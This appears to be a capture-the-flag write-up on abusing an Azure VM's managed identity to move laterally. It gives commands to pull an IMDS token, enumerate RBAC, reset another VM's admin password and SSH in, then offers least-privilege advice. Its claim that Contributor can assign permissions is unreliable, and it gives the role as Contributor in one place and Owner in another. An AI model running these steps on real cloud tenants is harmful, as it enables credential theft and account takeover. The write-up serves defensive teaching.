







> /AzureDefence/VMAbuse&Lateralmovement

# Abusing VM Permissions For Lateral Movement

Cloud environments introduce a different kind of attack surface.

Traditional attacks often focus on stealing passwords, exploiting vulnerabilities, or moving through network connections. In Azure, attackers can also abuse the **control plane** itself. A single overly privileged identity can become a bridge to other resources without ever touching the target machine directly.

In this article, we will investigate an Azure lateral movement path where a compromised VM identity is abused to gain control over another virtual machine through Azure RBAC and VM extensions.


## Starting With Limited Access

The scenario begins with only one piece of information:

A compromised password.

No knowledge of the Azure environment.

No knowledge of available permissions.

No knowledge of accessible resources.

**The objective** is to discover the available attack paths and determine whether this initial access can be expanded.

**Resource Group**


Let's start by accessing the provided Linux VM.

```bash
ssh <user>@<LinuxVM_IP>
```

Once inside, the first question is:

Does this VM have an Azure identity attached?

## Finding The Hidden Identity

Azure resources can have **Managed Identities**, allowing them to authenticate to Azure services without storing credentials.

The Instance Metadata Service (IMDS) exposes information about the VM locally:

```text id="0s9vz"
http://169.254.169.254/
```

Let's query IMDS and check whether an identity token is available.

```bash id="jv8k2"
curl -s -H "Metadata:true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```



A token is returned. The VM has a managed identity. This changes the investigation completely.

Instead of only having access to one machine, we now have an Azure identity that may have permissions across the environment. Let's authenticate Azure CLI using this identity.

```bash
az login --identity
```

Now we can investigate what this identity can access. The next step is understanding the identity's privileges.

First, let's discover available resources.

```bash 
az group list --output table
```

Then, identify virtual machines inside the resource group.

```bash
az vm list --resource-group <redacted> --output table
```

Now comes the important question:

What permissions does our managed identity have?

```bash id="xq8m0"
az role assignment list --all --output table
```

The environment contains multiple VMs, including:

```text
LinuxVM
LinuxVM1
```



The result reveals something interesting. The managed identity has `Role: Contributor` on another VM. This is where cloud permissions become dangerous.


The `Contributor` role is not just a label. It includes the ability to manage resources and assign permissions.

For virtual machines, this can include actions such as:

* Modifying VM configuration.
* Deploying extensions.
* Changing credentials.
* Executing actions inside the guest operating system.

A traditional attacker may need SSH access to move between machines. Whereas, a cloud attacker with excessive RBAC permissions can simply use Azure's management APIs.

The network boundary becomes irrelevant. The control plane becomes the path.


Azure VM extensions are legitimate management features. Administrators use them for tasks such as:

* Configuration management.
* Monitoring agents.
* Script execution.
* System maintenance.

However, legitimate features can become attack tools when permissions are abused. With sufficient permissions, an attacker can deploy the **VMAccessForLinux** extension to modify user access on another VM.

First, let's identify the username.

```bash
az vm show --resource-group <redacted> --name LinuxVM1 \
--query osProfile.adminUsername
```

then we can reset the password for an existing user.

```bash
az vm user update \
--resource-group <redacted> \
--name LinuxVM1 \
--username <redacted> \
--password "<redacted>"
```




No vulnerability was exploited. No malware was deployed.

We simply used Azure's own management functionality with excessive permissions.

That is what makes cloud privilege abuse tricky. The attacker is often using the same tools as administrators.

## Moving To The Second VM

With credentials changed, we can connect to the target VM.

First, retrieve its public IP.

```bash id="m8q2s"
az vm list-ip-addresses --resource-group <redacted> --name LinuxVM1 \
--query "[].virtualMachine.network.publicIpAddresses[].ipAddress" \
--output tsv
```



Then connect:

```bash id="h6v9p"
ssh <redacted>@<LinuxVM1_IP>
```

**Successful SSH access to other VM**


Once inside, the flag can be located:

```bash
find / -name flag* 2>/dev/null
cat ~/flag.txt
```

**Second VM's Data is accessable**


The lateral movement path is complete.

# Breaking Down The Attack Chain

The complete path looked like this:

```text
Linux VM
   |
   ↓
Managed Identity
   |
   ↓
Azure RBAC Enumeration
   |
   ↓
Owner Permission
   |
   ↓
VMAccessForLinux Extension
   |
   ↓
Password Reset
   |
   ↓
Target VM Access
```

The interesting part is that every step used legitimate Azure functionality. The attack did not bypass Azure. It used Azure exactly as designed, but with permissions that were too powerful.

# The Cloud Security Lesson

Managed identities are not automatically safe. Their risk depends entirely on the permissions assigned to them. A compromised VM with limited permissions may have little impact. A compromised VM with `Owner/Contributor` access over other resources can become a launchpad for lateral movement.

Security teams should apply the principle of least privilege to managed identities and regularly audit RBAC assignments to prevent excessive permissions. Monitoring unexpected VM extension deployments and unusual Azure Resource Manager activity can help detect abuse of the control plane. Workload identities should be treated with the same level of security attention as user accounts because their permissions determine the potential impact of a compromise.


In cloud environments, attackers do not always need to break through the front door.

Sometimes, they simply inherit the keys already hanging inside.

---

> QXV0aG9yOiBodHRwczovL2dpdGh1Yi5jb20vaGFzaC01NDU=
